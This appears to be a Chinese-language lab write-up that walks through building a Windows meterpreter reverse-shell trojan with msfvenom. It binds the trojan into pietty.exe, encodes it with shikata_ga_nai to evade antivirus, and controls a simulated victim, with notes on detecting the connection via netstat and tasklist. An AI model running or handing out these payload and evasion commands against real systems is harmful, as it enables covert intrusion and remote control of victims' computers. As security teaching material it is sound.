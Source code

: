 製作一支簡單的木馬 並以模擬的方式讓被害者啟動 並控制受害者電腦

使用msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.2.106(本機IP 但厲害的攻擊者不會使用自己真的IP) LPORT=8888(要連接的port) -f 
exe> /home/rayui/test.exe(產生的檔案類型及位置)

![5](https://user-images.githubusercontent.com/49279418/117013936-e5c02400-ad22-11eb-9e76-0edfbe855a7f.png)

接者使用virus total網站來測試病毒
可以發現如此簡單的病毒都可以通過部份的防毒軟體
所以anti-virus(資安軟硬體)的選擇很重要
![6](https://user-images.githubusercontent.com/49279418/117014742-ac3be880-ad23-11eb-9eee-edce28c847f7.png)

接著做綑綁的測試(使用的是pietty.exe) 要做綑綁的原因很簡單目的是混淆防毒軟體 
而防毒軟體是去測試檔案是否有病毒的特徵 所以防毒軟體的更新很重要(不然有新型病毒一樣中招)
使用msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.2.106 LPORT=8888 -f exe 
-x /home/rayui/pietty0400b14.exe(拿來綑綁的檔案) -o /home/rayui/test2.exe(輸出目標)
![7](https://user-images.githubusercontent.com/49279418/117016799-a21ae980-ad25-11eb-9efc-14d998866bd4.png)


一樣使用virus total網站來測試病毒
可以發現有明顯的改進(可以使用msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.2.106 LPORT=8888 
-e x86/shikata_ga_nai -i 5(編碼次數) -f exe -o /home/rayui/test2.exe 來達成多次編碼以避免被偵測)
![8](https://user-images.githubusercontent.com/49279418/117017189-fcb44580-ad25-11eb-8190-baf1857e0e40.png)

接著模擬受害者點選到網頁並下載木馬程式
(此部分使用的是社交工程 在此就跳過社交工程的細節假設受害者以上鉤 避免方法)
要注意的還有攻擊者可以透過在網頁中寫惡意程式並不需要下載 甚至在mail中就可以寫入惡意程式
這部份可以透過教育訓練避免點擊可疑的內容 或是可以藉由DMZ在DMZ區收件
![9](https://user-images.githubusercontent.com/49279418/117021915-5c145480-ad2a-11eb-8ad3-48241b38a565.png)

此時在攻擊端做監聽的動作 此時若有人點擊惡意程式就可以成功連結到受害者(用screenshot來證明確實連接成功)
並可以透過shell指令來進入被害者的指令列來執行惡意動作
![10](https://user-images.githubusercontent.com/49279418/117023051-54a17b00-ad2b-11eb-8314-8e871c556bc8.png)

此時若受害者想要阻止此連線可以透過netstat指令查看當前連線 或是使用其他網路監控程式如wireshark都可以看到有異常連線
並對照PID(使用tasklist指令)就可以找出是哪個程式在執行此動作並關閉
![11](https://user-images.githubusercontent.com/49279418/117024206-5d468100-ad2c-11eb-98ee-50ebd1dd99e8.png)
![12](https://user-images.githubusercontent.com/49279418/117024376-8404b780-ad2c-11eb-8c60-056c100bc121.png)
